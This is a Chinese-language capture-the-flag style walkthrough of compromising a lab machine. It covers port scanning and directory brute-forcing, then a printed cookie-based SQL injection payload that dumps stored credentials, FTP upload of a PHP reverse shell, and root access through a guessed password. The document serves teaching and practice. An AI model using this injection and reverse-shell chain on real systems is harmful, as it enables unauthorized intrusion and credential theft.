[TOC]

# 信息收集

```
arp-scan -l
nmap -p- --min-rate 10000 192.168.174.185 | awk -F ' ' '{print$1}' | awk -F '/' '{print$1}' | tr '\n' ','
```

扫出了端口21，80

分别进行TCP详细扫描，漏洞扫描和UDP扫描

## TCP详细扫描



- 21端口好像不能匿名登录

## 漏洞扫描



没信息

## UDP扫描



没信息

# 端口分析

nmap扫描都没有结果，只能从80端口尝试了

- 分别使用dirb和gobuster进行目录爆破

```
gobuster dir -u "http://192.168.174.185" -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt -x php,txt,zip
```

```
dirb http://192.168.174.185 /usr/share/wordlists/dirb/big.txt
```



只有一个library.php文件



发现library.php中这些可点击的目录都是同一个报错信息，感觉是靠POST方式传参



果然是POST方式，尝试输入/etc/passwd，../../，等目录穿越或者文件包含漏洞，但没有成功

- 在查看源代码时发现一个注释



尝试将其当作密码失败，这里我又忘记这种其实可以当作目录的



不过没什么特别的（反而这是个混淆项目，因为点击这个目录导致我卡了很长时间）

# bp分析

因为没有其他信息了，再次把重心放在bp抓包上

- 因为我自己访问了注释目录，所以有两个cookie，一个是全域，一个是/library的cookie



两个cookie的时候，如果存在cookie注入的话要么删一个，要么两个都改



这个是一个cookie是正常的，并且lastviewed=是url编码，解码后

```
{"lastviewed"=="England"}
```

把后面改成0

```
{"lastviewed"=="0"}
```



发现改为0后这里与原界面不一样，原界面是空的，可能存在sql注入，并且可能是数字注入

```
{"lastviewed"=="0 and 1=1"}(有回显)
{"lastviewed"=="0 and 1=2"}(空)
```

- 经过一些列的查表查库

- ```
  Cookie: PHPSESSID=11tv5u7g56goutrnni8hutbqn5; lastviewed={"lastviewed"=="0 union select group_concat(id,':',username,':',password) from access"}
  ```

  



因为没有ssh端口，尝试ftp连接



发现html目录我们拥有所有权限

- 接下来的思路就是利用反弹shell，在本地弄过来一个php-reverse-shell.php文件，上传到html目录，并且给满777权限，然后在本地开启监听，在url上访问，拿到反弹shell





成功拿到shell

# 提权

- 在/var/www/html下查看发现library.php文件的源码



我自己的方法是通过数据库的账号密码登录了mysql库，拿到root的hash，解密后得到1234，但是实际上直接拿‘password’去尝试su，就成功提权了



成功提权

（以后有密码就尝试，而不是等到明显信息出现，本来就是尝试的行业）